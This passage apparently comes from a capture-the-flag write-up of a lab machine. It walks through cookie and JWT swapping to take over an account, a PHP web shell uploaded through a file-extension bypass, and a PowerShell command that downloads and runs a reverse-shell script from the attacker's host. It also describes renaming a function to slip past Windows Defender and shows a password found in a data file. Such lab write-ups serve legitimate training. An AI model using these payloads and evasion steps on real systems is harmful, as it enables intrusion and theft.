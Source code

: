 One of the four tokens will work and when replacing the _PHPSESSID_ cookie in the **Developer Tools** in the browser, it will switch accounts to _paul_.
When replacing the _token_ cookie with the newly generated **JWT**, then it is possible to use the uploading function.

### Getting a Shell

Lets upload a simple PHP file as a test:
```
<?php
echo("Test");
?>
```

Changing the file extension in the request from _zip_ to _php_:
```
POST /portal/includes/fileController.php HTTP/1.1
(...)

Content-Disposition: form-data; name="task"

test1.php
```

The file is successfully uploaded to _/portal/uploads/_ and echoes the string, so the PHP code got executed.
This vulnerability can be used to upload a file to execute system commands:
```
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```

Command execution is successful, as the command `whoami` shows the output _breadcrumbs\www-data_:
```
http://10.10.10.228/portal/uploads/test1.php?cmd=whoami
```

To get a reverse shell, the script _Invoke-PowerShellTcp.ps1_ from the **Nishang framework** can be used, but the function name _Invoke-PowerShellTcp_ has to be changed to something else as Windows Defender blocks it otherwise.

Uploading and executing the PowerShell script:
```
POST /portal/uploads/test1.php HTTP/1.1
(...)

cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/shell.ps1')
```

After sending the request, the script gets executed and the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

In the web directory _portal/pizzaDeliveryUserData_ are files that all have the same size except for _juliette.json_:
```
(...)
"username" : "juliette",
"password" : "jUli901./())!",
```
